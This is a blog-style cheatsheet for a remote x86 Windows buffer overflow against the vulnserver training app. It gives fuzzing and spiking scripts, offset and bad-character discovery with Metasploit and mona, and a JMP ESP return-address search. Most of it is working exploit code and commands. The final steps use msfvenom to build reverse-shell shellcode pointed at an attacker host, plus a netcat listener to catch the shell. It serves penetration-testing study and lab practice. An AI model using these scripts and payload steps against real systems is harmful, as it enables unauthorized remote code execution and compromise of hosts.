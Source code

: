 +++
title = "x86 Windows Remote Buffer Overflow Cheatsheet"
date = "2020-12-20"
author = "Matthias Van De Velde"
cover = ""
tags = ["Windows", "x86", "Buffer Overflow", "Cheatsheet"]
keywords = ["Windows", "x86", "Buffer Overflow", "Cheatsheet"]
description = "Cheatsheet and refresher for a simple x86 Windows buffer overflow methodology for an app over the network."
showFullContent = false
draft = false
+++

<u>[Template code](https://github.com/fpkmatthi/x86WinBof-network-cheatsheet)</u>

## Prerequisites

- Windows VM
    - Immunity Debugger
    - PATH contains `C:\python27`
    - `C:\python27\Pycommands\mona.py`
- Linux VM
    - Kali, Parrot, custom build
- Both VMs need to contact each other
- A will to live

## Windows VM

1. Launch Immunity Debugger as Administrator
2. File > Open > `vulnserver.exe` 
3. Set it to **run <F9>**
4. Repeat after every crash

## Linux VM

Scan the victim IP

```Bash
nmap -p- <ip>
```

Connect to the port where the app listens on

```Bash
nc <ip> <port>
```

### Spiking

1. Look for commands that can take input like:
    - STATS <args>
    - TRUN <args>
    - ...
2. Create spike script for every command
```Bash
s_readline();
s_string("<cmd> ");
s_string_variable("A");
```
3. Spike it and keep an eye on Immunity Debugger
```Bash
generic_send_tcp <ip> <port> <spike script> 0 0
```
4. Note the command and potential arguments where the script crashes the app

## Fuzzing

1. On every crash, try higher increments in buffer size to see if you can overwrite EIP
2. Keep an eye on Immunity Debugger
```Python
#!/usr/bin/env python3
import sys, socket
from time import sleep

ip='<ip>'
port=<port>
buffersize_incr=100
buffer=b'A'*buffersize_incr

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(5)         # 5 seconds
        s.connect((ip, port))   # Note the double ()
        s.send(b'<cmd> ./:/'+buffer)
        s.recv(1024)            # Important, otherwise it won't crash
        s.close()
        sleep(1)                # Don't forget to sleep, otherwise crash when sending to fast
        buffer=buffer+b'A'*buffersize_incr
    except:
        print('Crashed at {} bytes'.format(str(len(buffer))))
        sys.exit()
```

## Finding offset

1. Input the buffer size that also overwrites the EIP
```Bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <buffer size>
```
2. Put the output of `pattern_create.rb` in the buffer
```Python
...
buffer=b'<pattern>'
...
```
3. Take note of the **EIP** value in Immunity Debugger
4. Get the exact offset
```Bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <buffer size> -q <EIP>
```
5. Verify by using buffer `b'A'*<offset>+b'B'*4`
6. EIP should be **42424242**

## Bad chars

1. In Immunity Debugger:
    - `!mona config -set workingfolder c:\mona\%p`
    - `!mona bytearray -b "\x00"`
2. Use below code to generate string of bad chars that is identical to bytearray
```Python
#!/usr/bin/env python3
from __future__ import print_function
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()
```
3. Put the string of bad chars before the B's in your buffer:
```Python
badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
buffer = b'A'*<offset>+b'B'*4+badchars
```
4. Crash the app with the badchars and compare with mona:
    - Copy ESP each time you crash it because it may change
    - `!mona compare -f C:\mona\<appname>\bytearray.bin -a <ESP>`
5. Generate new bytearray, exclude badchars and start over:
    - `!mona bytearray -b "\x00\x0a"`
    - Delete badchars from buffer
    - Crash app and copy ESP again
    - `!mona compare -f C:\mona\<appname>\bytearray.bin -a <ESP>`

## Find right module

1. Find module without protections (False):
    - `!mona modules`
    - Take note of the module name (e.g. essfunc.dll)
2. Find **JMP ESP**
    - `!mona jmp -r esp -cpb "<badchars"`
    - OR
    - `!mona find -s "\xff\xe4" -m <module>`
3. Take note of **ALL** the return addresses for all JMP ESP pointers
4. `buffer=b"A"*<offset>+b"<JMP ESP return address>"`
    - 0x625011AF => \xaf\x11\x50\62
5. In Immunity Debugger: set breakpoint on the JMP ESP return address (Go to address is disassembler: <JMP ESP> and press F2)
6. Crash the app again
7. EIP should now have the JMP ESP return address
8. If not, try again with other JMP ESP return addresses

## Shellcode

```Bash
msfvenom -l payload
msfvenom \
    -p <payload> \
    LHOST=<attacker ip> \
    LPORT=<attacker port> \
    EXITFUNC=thread \
    -f c \
    -a x86 \
    -b "<bad chars>"
```

**NOTE:** If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\x90) to the payload.)

```Python
#!/usr/bin/env python3
prefix = b""
offset = <offset>
overflow = b"A"*offset
returnaddr = b"<JMP ESP addr>"
padding = b"" # NOPs (e.g. \x90\x90\x90)
payload = b"<msfvenom output>"
postfix = b""
buffer = prefix + overflow + returnaddr + padding + payload + postfix
...
```

```Bash
sudo ufw disable
nc -lvnp <attacker port>
```

Finally, crash the app again and get shell :)

## Resources

- https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst
- https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G
- https://tryhackme.com/room/bufferoverflowprep
- https://medium.com/@Z3R0th/a-simple-buffer-overflow-using-vulnserver-86b011eb673b

